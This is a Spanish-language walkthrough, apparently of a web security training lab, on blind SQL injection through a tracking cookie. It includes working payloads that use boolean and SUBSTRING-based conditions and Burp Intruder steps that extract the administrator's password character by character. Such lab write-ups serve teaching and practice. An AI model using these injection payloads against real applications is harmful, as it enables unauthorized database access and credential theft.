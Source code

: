 ## Objetivo:

![[Pasted image 20240623145107.png]]

## Solución:

Entrar a cualquier parte de la aplicacion donde nos muestrel mensaje de "Welcome Back"

![[Pasted image 20240623145146.png]]

Vemos que manipulando la cookie "TrackingId" podemos llegar a hacer saltar ese "Welcome Back" o no dependiendo de si le enviamos una query valida...

Supongamos que la query que esta internamente se ve algo asi:

```
SELECT * FROM tracking WHERE trackingId = 'miCookie';
```

Entonces inyectaremos lo siguiente:

```
2m3EUUqs6qMUIIGY' AND 1=1 -- -
```

De esta manera hacemos que se cumplan ambas condiciones... Y como vemos el mensaje de "Welcome" si se muestra, y si intentamos con `2m3EUUqs6qMUIIGY' AND 1=2 -- -` no se muestra por que la segunda condicion NO se cumple.

![[Pasted image 20240623145410.png]]

![[Pasted image 20240623145610.png]]

Ya con esto podemos guiarnos para hacer la respectiva inyeccion a ciegas...

Podemos ir haciendo pruebas de la siguiente manera.
```
2m3EUUqs6qMUIIGY' AND (SELECT CASE WHEN (1=1) THEN 'a' ELSE NULL END)='a' -- -
2m3EUUqs6qMUIIGY' AND (SELECT CASE WHEN (1=2) THEN 'a' ELSE NULL END)='a' -- -
```

![[Pasted image 20240623150110.png]]

![[Pasted image 20240623150212.png]]

Una vez acertada una query y vemos que podemos manipular hasta cierto punto la query interna del servidor ahora tocaría implementar otra query la cual nos sirva para poder enumerar caracteres de la contraseña de dicho usuario, en todo caso esto NO solo serviría para contraseñas si no para cualquier cosa que querramos hacer...

Luego podemos usar la tecnica del SUBSTRING cosa que esta sintax cambiaría dependiendo de la Base de Datos que esté por detras. Para esto podriamos usar la query anterior pero metiendole un SUBSTRING y metiendole palabras "en duro" antes que metamos la columna de contraseña...
Por ejemplo:

```
2m3EUUqs6qMUIIGY' AND (SELECT CASE WHEN (SUBSTRING('hola', 1, 1)='h') THEN 'a' ELSE NULL END)='a' -- -

2m3EUUqs6qMUIIGY' AND (SELECT CASE WHEN (SUBSTRING('fhola', 1, 1)='h') THEN 'a' ELSE NULL END)='a' -- -
```


![[Pasted image 20240623150904.png]]


![[Pasted image 20240623150931.png]]

Ahora si haremos la query definitiva para explotar todo esto...

```
2m3EUUqs6qMUIIGY' AND (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1)='h') THEN 'a' ELSE NULL END)='a' -- -
```

Toda esta request la enviamos al Intruder, seleccionamos ataque de tipo Cluster Bomb  y como variable seleccionamos el "1, 1" y el string luego este "h"...

![[Pasted image 20240623151810.png]]


En el Payload #1 metemos la lista de indices para usar en el Substring y deshabilitamos la opcion de "Url encode"

![[Pasted image 20240623152022.png]]

Y el Payload #2 metemos la lista de letras de a-z y numeros de 0-9 y quitamos la marca de "Url Encode"

![[Pasted image 20240623152134.png]]

Le metemos un Grep al "Welcome Back!" (Para esto, antes de hacer el Refect Response asegurate de meter una consulta valida para poder hacer saltar el mensaje de Welcome y luego haces le Grep y ya luego metes la query para explotar todo)

![[Pasted image 20240623152350.png]]


Luego le damos a comenzar ataque


![[Pasted image 20240623153407.png]]


Iremos anotando cada uno de los caracteres del payload en donde veamos que nos devuelva "Welcome back!" y los anotaremos en el orden de la lista de "Payload#1"  por ejemplo:
1, 1
2, 1
3, 1
En este caso sería "p3p" los primeros 3 caracteres de la contraseña...
La contraseña completa sería "p3pb9ivw3qeycbzk6rmo", ahora solo quedaría iniciar sesión

![[Pasted image 20240623153634.png]]

